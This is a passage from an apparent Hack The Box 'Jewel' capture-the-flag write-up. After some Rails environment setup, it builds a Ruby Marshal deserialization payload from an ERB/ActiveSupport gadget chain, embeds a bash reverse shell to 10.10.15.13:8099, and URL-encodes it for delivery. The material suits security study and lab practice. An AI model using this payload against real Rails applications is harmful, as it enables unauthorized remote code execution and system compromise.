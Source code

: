 ```text
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ sudo npm install --global yarn

added 1 package, and audited 2 packages in 1s

found 0 vulnerabilities

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails webpacker:install       
      create  config/webpacker.yml
Copying webpack core config
```

I had to do the above steps to resolve the webpacker issues I was receiving. For some reason the gem version of yarn was causing problems, so I had to remove it and install it through npm. 

```text
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0>
```

After installing all of the dependencies I was able to start the rails console.

```ruby
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.15.13/8099 0>&1"`'
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):002:0> erb = ERB.allocate
=> #<ERB:0x000055d8ee5731a0>
irb(main):003:0> erb.instance_variable_set :@src, code
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):004:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):005:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):006:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
=> "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\":`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:...
irb(main):009:0> require 'uri'
=> false
irb(main):010:0> puts URI.encode_www_form(payload: payload)
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.15.13%2F8099+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
=> nil
irb(main):011:0>quit()
```
